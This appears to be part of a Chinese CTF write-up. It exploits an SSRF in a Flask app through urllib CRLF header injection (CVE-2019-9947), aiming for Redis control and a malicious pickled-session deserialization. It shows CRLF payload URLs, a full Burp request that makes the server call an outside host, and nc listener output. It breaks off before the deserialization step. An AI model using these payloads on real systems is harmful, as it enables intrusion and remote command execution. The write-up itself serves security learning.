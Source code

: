 ## python审计

通过分析源码可知，ssrf的漏洞点的后端实现为urllib，然后又用到了redis，且flask的session是用redis存储的，那么有如下两个思路控制redis：

- 利用ssrf漏洞点，使用gopher协议，控制redis
- 利用ssrf漏洞点，使用urllib的头注入，控制redis


控制redis之后，有如下两个思路命令执行；

- 利用redis的备份文件功能，写入用户的crontab文件，从而执行命令或者反弹shell
- 本题的用户的session是python的序列化格式存入redis中，故可构造恶意的session写入redis中，当再次使用这个用户访问时，即可触发反序列化，进而命令执行

经过测试，本题不仅不支持gopher协议，也没有crontab，故只能使用urllib头注入，然后构造恶意的序列化session这个思路。


## urllib头注入

python的urllib库爆出过一组url的头注入，大概意思就是在url里可以构造CRLF(\r\n)(%0d%0a)，使得url中部分的数据被处理到请求头中，导致头注入，测试如下：

- CVE-2016-5699(失败): ```http://[vps-ip]%0d%0aX-injected:%20header:8888```
- CVE-2019-9740(失败): ```http://[vps-ip]%0d%0a%0d%0aheaders:8888```
- CVE-2019-9947(成功): ```http://[vps-ip]:8080?%0d%0apayload%0d%0apadding```


构造如下burp请求：

```
POST /download/ HTTP/1.1
Host: 47.93.12.191:7002
Content-Length: 56
Accept: */*
Origin: http://47.93.12.191:7002
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://47.93.12.191:7002/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=d11dd213-7e07-42b9-81be-31531f7fbbfa.BPuavI7NwQ4CvtwE8bAP4u0cQMY; BD_UPN=123253
Connection: close

url=http://183.172.25.54:8888?%0d%0apayload%0d%0apadding

```

服务器收到响应：

```
➜  nc -l 8888
GET /?
payload
padding HTTP/1.1
Accept-Encoding: identity
Host: 183.172.25.54:8888
User-Agent: Python-urllib/3.7
Connection: close
```
